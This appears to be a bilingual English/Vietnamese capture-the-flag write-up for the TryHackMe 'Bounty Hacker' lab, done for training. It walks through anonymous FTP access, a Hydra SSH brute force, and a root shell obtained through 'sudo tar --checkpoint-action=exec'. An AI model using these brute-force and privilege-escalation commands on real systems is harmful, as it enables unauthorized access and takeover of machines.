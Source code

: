 ### Write up Bounty Hacker
## TL;DR (Quick summary)  
- Boot2root style box: enumerate → anonymous FTP → collect wordlist → brute SSH → get user flag → abuse `sudo tar` to get root.  
( Tóm tắt: quét → FTP anonymous → lấy danh sách mật khẩu → brute SSH → lấy flag user → lợi dụng `sudo tar` để lên root. )

---

## Goals / Objectives  
1. Find `user.txt` (user flag). (Tìm `user.txt`.)  
2. Find `root.txt` (root flag). (Tìm `root.txt`.)  

---

## Environment & Tools  
- Kali / Parrot / AttackBox (terminal)  
- nmap, ftp, hydra (or similar), ssh, tar  
( **Môi trường & công cụ:** Kali / Parrot / AttackBox, nmap, ftp, hydra, ssh, tar )

---

## 1) Enumeration — Nmap
**Command**
```bash
sudo nmap -sV -sC -v -oN nmap_initial <TARGET_IP>
```
**What we expect**
- Found open ports: `21/tcp (ftp)`, `22/tcp (ssh)`, `80/tcp (http)`.  
( Kết quả mong đợi: port mở: 21 (ftp), 22 (ssh), 80 (http). )

---

## 2) Visit web (port 80)
- Open `http://<TARGET_IP>` in browser. The page is simple (banner / theme) and doesn't immediately expose credentials.  
( Mở trang web, chỉ có banner/giao diện, không thấy creds ngay lập tức. )

---

## 3) FTP — try anonymous
**Commands**
```bash
ftp <TARGET_IP>
# when prompted:
# username: anonymous
# password: anything (or press enter)
ls -la
get locks.txt
get task.txt
quit
```
**Notes**
- Anonymous FTP allowed. We find `locks.txt` (a password list/munge list) and `task.txt` (contains author info / hints).  
( FTP anonymous cho phép. Tìm thấy `locks.txt` (danh sách mật khẩu) và `task.txt` (thông tin/gợi ý). )

---

## 4) Read the files
```bash
cat task.txt     # contains author / clue (e.g., name "lin")
less locks.txt   # contains many candidate password variations
```
**Use**
- `task.txt` reveals the username to try (e.g., `lin`).  
- `locks.txt` is used as a password list for brute forcing SSH.  
( `task.txt` lộ username (ví dụ `lin`). `locks.txt` làm wordlist cho brute SSH. )

---

## 5) Bruteforce SSH with Hydra (or similar)
**Command**
```bash
hydra -l lin -P locks.txt ssh://<TARGET_IP>
```
**Result**
- Hydra finds the password for `lin` (in writeups it's commonly reported as an example).  

---

## 6) SSH in as lin (user)
**Command**
```bash
ssh lin@<TARGET_IP>
# password: <found_password>
```
**After login**
```bash
whoami
ls -la
cat user.txt            # get user flag
```
**Example user flag**
```
THM{EXAMPLE_USER_FLAG}
```
( SSH đăng nhập bằng tài khoản `lin`, cat `user.txt` để lấy flag user. )

---

## 7) Privilege Escalation — sudo rights
**Check sudo rights**
```bash
sudo -l
```
- You should see that `lin` can run `tar` with `sudo` (i.e., `lin ALL=(root) NOPASSWD: /bin/tar` or similar).  
( Chạy `sudo -l` để kiểm tra; tài khoản `lin` có quyền chạy `tar` bằng sudo.)

---

## 8) Abuse `tar` via GTFOBins to spawn root shell
**Why this works**
- GNU `tar` supports `--checkpoint` and `--checkpoint-action=exec` which can be used to execute a command as the running user; if run under `sudo` it runs as root. GTFOBins documents this exact technique.  
( `tar` có tuỳ chọn `--checkpoint-action=exec` để thực thi lệnh; nếu chạy bằng `sudo` thì lệnh đó sẽ chạy với quyền root — chiêu này có trên GTFOBins.)
- Hoặc lên trang GTFOsbins để tìm payload

**Command (get root shell)**
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
# now you should have a root shell
whoami   # should output: root
cat /root/root.txt
```
**Example root flag**
```
THM{EXAMPLE_ROOT_FLAG}
```
( Dùng `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh` để spawn shell root, rồi `cat /root/root.txt` để lấy flag root. )

---

## 9) Cleanup & notes
- All steps above follow standard enumeration → exploit flow. If `tar` trick doesn't work, re-check `sudo -l` output and verify GNU tar presence. Alternative escalation vectors: search for SUID binaries, writable files, scheduled jobs, etc. Tools like `linpeas` help enumerate faster.  
( Nếu chiêu `tar` không ăn, kiểm tra lại `sudo -l` và đảm bảo có GNU tar. Ngoài ra tìm kiếm SUID, cron, file writable; `linpeas` hỗ trợ tự động enum. )

---

## References / Further reading
- TryHackMe — Bounty Hacker room page.  
- GTFOBins — tar (privilege escalation technique).  
- Community writeups and walkthroughs (InfosecWriteups, Medium, blogs).  
( Tham khảo: trang TryHackMe, GTFOBins, các writeup cộng đồng. )

---

